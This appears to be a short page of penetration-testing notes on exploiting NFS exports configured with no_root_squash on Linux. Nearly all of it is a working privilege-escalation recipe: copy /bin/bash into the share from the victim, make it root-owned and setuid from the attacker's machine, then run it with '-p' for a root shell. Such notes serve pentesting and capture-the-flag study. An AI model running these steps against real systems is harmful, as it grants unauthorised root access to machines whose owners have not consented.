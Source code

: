 ```yaml
---
layout: post
title: NFS no_root_squash
description: NFS no_root_squash
summary: NFS no_root_squash
tags: [linux,privesc,nfs]
minute: 1
---
```

## Overview
If an NFS export contains `no_root_squash` option, attacker can mount that export on his machine and modify any file acting as root user.

## Steps
* Mount share on attacker machine
* Inside victim machine, copy `/bin/bash`

```bash
# e.g /home/james is an NFS export
cd /home/james
cp /bin/bash .
```

* From attacker machine

```bash
cd /mnt
sudo chown root:root bash
sudo chmod u+s bash
```

* Back to victim machine,

```bash
./bash -p
# enjoy!
```
